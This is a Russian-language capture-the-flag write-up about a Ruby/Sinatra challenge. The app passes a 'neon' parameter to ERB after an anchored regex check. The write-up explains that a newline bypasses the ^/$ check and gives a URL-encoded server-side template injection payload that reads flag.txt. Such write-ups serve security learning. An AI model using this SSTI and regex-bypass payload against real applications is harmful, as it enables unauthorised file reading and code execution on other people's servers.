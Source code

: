 **Исходный код**

Пришло время погрузиться в код и посмотреть, с чем мы работаем!

дерьмо… оно в рубине.

![[Pasted image 20230218142740.png]]

Я не фанат. Думаю, я должен был понять это с четырьмя гигантскими рубинами передо мной.

![[Pasted image 20230218142822.png]]

Изучив исходный код, я заметил две вещи:

-   Параметр `neon`,  который `POST`ed передается в шаблон (возможна инъекция)
-   Существует проверка регулярного выражения для `neon` это позволяет использовать только буквенно-цифровые символы и пробелы.

Для этого потребуется двусторонний подход. Внедрение шаблона на стороне сервера (SSTI) и обход проверки. Это код, который нужно обойти.

```ruby
post '/' do
  if params[:neon] =~ /^[0-9a-z ]+$/i
    @neon = ERB.new(params[:neon]).result(binding)
  else
    @neon = "Malicious Input Detected"
  end
  erb :'index'
end
```


**Эксплуатация**

В Интернете есть много примеров по SSTI и для ruby ​​в целом. Но перед этим можно пройти, чтобы прочитать `flag.txt`файл, ему необходимо обойти проверку регулярного выражения. После [небольшое исследование](https://docs.guardrails.io/docs/en/vulnerabilities/ruby/insecure_use_of_regular_expressions) , по-видимому, с использованием `^`и `$`внутри регулярных выражений в Ruby - плохая идея (?). Выглядело хорошо для меня, но [что я знаю](https://stackoverflow.com/a/577675) ? Зная, что регулярное выражение можно обойти с помощью новой строки, мы можем начать искать эксплойт для чтения `flag.txt`.

```ruby
<%= File.open('flag.txt').read %> # Read file
```

Достаточно просто, но _он должен быть закодирован в URL_ . Имея это в виду, полная полезная нагрузка будет выглядеть так:

```
neon=a
%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E
```

**УВЕДОМЛЕНИЕ** . В полезной нагрузке есть фактический символ новой строки. А `\n`написанного недостаточно для правильного анализа.

Что мне действительно нравится в этом вызове, так это то, что это один из тех эксплойтов, которые можно запускать прямо в браузере. Никаких специальных инструментов не нужно! Хотя я все же предпочитаю использовать `curl`;)
